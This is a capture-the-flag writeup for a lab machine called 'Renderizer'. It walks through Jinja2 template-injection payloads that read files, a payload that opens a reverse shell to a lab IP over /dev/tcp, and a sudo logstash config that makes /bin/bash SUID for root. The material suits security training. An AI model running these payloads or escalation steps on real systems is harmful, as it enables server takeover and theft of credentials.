 ```yaml
---
title: 'Renderizer Writeup'
date: '2024-07-13'
tags: ['SSTI', 'RCE', 'Linux', 'Hacking Club']
draft: false
summary: 'Exploring an SSTI vulnerability in a live rendering application, it is possible to gain RCE on the server. The privilege escalation involves sudo permissions on logstash.'
images: ['/static/images/renderizer-writeup-images/1.png']
authors: ['default']
---
```


![Writeup-Renderizer 1](/static/images/renderizer-writeup-images/1.png)

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f7:37:6a:01:16:84:08:ea:92:19:b0:b3:ba:22:71:34 (ECDSA)
|_  256 59:00:f0:d6:c4:d4:f3:91:85:8f:1a:d2:1d:29:87:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Renderizer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Only ports 22(SSH) and 80(HTTP) are open.

---

![Writeup-Renderizer 2](/static/images/renderizer-writeup-images/2.png)

`sudo vim /etc/hosts`
![Writeup-Renderizer 3](/static/images/renderizer-writeup-images/3.png)

### [http://renderizer.hc](http://renderizer.hc)

![Writeup-Renderizer 4](/static/images/renderizer-writeup-images/4.png)
![Writeup-Renderizer 5](/static/images/renderizer-writeup-images/5.png)

It says it's a jinja2, so we can deduce that this is an SSTI (Server-Side Template Injection). To test, I sent `{{7*7}}.`

![Writeup-Renderizer 6](/static/images/renderizer-writeup-images/6.png)

After doing some research, I found a payload for reading files that worked.

`{{ get_flashed_messages.globals.builtins.open("/etc/passwd").read() }}`

![Writeup-Renderizer 7](/static/images/renderizer-writeup-images/7.png)

I tried using the same method to grab the ssh key, but it didn't work:

`{{ get_flashed_messages.globals.builtins.open("/home/john/.ssh/id_rsa").read() }}`

![Writeup-Renderizer 8](/static/images/renderizer-writeup-images/8.png)

I tried using the payload `{{ "teste".class.mro[1].subclasses() }}` to check for present subclasses, but it was giving an error. I believe the server has some kind of protection, so I searched for another way to verify this.
And I managed to do it this way:

```
{% for subclass in ''.__class__.__mro__[1].__subclasses__() %}
    <h2>{{ subclass.__name__ }}</h2>
    <ul>
    {% for attr in subclass.__dict__.keys() %}
        <li>{{ attr }}</li>
    {% endfor %}
    </ul>
{% endfor %}
```

![Writeup-Renderizer 9](/static/images/renderizer-writeup-images/9.png)

Now, it's time to find the position of the Popen array to get RCE.

## Initial Access

Payload from vert16x to automatically find the position of the Popen array, giving us RCE.

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("/bin/bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'").read().zfill(417)}}{%endif%}{% endfor %}
```

![Writeup-Renderizer 10](/static/images/renderizer-writeup-images/10.png)

## Privillege Escalation

`cat /etc/crontab`

![Writeup-Renderizer 11](/static/images/renderizer-writeup-images/11.png)
Initially, I thought of simply altering the webapp folder with the following commands, but it didn't work, for some reason, the cron wouldn't execute.

```
rm -rf webapp
echo '#!/bin/bash' > /home/john/webapp
echo 'chmod u+s /bin/bash' >> /home/john/webapp
chmod +x webapp
```

So I looked at the folder where backups were being made: **/var/backups**

![Writeup-Renderizer 12](/static/images/renderizer-writeup-images/12.png)

If I try to run `unzip webapp-03-01-2024.zip`, it gives a permission denied error.

![Writeup-Renderizer 13](/static/images/renderizer-writeup-images/13.png)

So, we need to copy **webapp-03-01-2024.zip** to the tmp folder:

`cp webapp-03-01-2024.zip /tmp`

In the tmp folder, we just unzip the file:

`unzip webapp-03-01-2024.zip`

![Writeup-Renderizer 14](/static/images/renderizer-writeup-images/14.png)

After unzipping, the webapp folder contains an environment variable **.env**, which happens to be the same password as the logged-in user **john**.

![Writeup-Renderizer 15](/static/images/renderizer-writeup-images/15.png)

`john:bwsTuCtSYue7G4`

`sudo -l`
![Writeup-Renderizer 16](/static/images/renderizer-writeup-images/16.png)

To exploit logstash, we need to create a malicious **.yaml** file.

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash)

![Writeup-Renderizer 17](/static/images/renderizer-writeup-images/17.png)

```
input {
  exec {
    command => "chmod u+s /bin/bash"
    interval => 120
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}

```

Then we just run the command,`sudo /root/logstash/bin/logstash -f /tmp/webapp/teste.yaml`

It takes a few seconds to run:

![Writeup-Renderizer 18](/static/images/renderizer-writeup-images/18.png)

And **/bin/bash** will become SUID after running logstash.

![Writeup-Renderizer 19](/static/images/renderizer-writeup-images/19.png)
![Writeup-Renderizer 20](/static/images/renderizer-writeup-images/20.png)

## Proof

![Writeup-Renderizer 21](/static/images/renderizer-writeup-images/21.png)
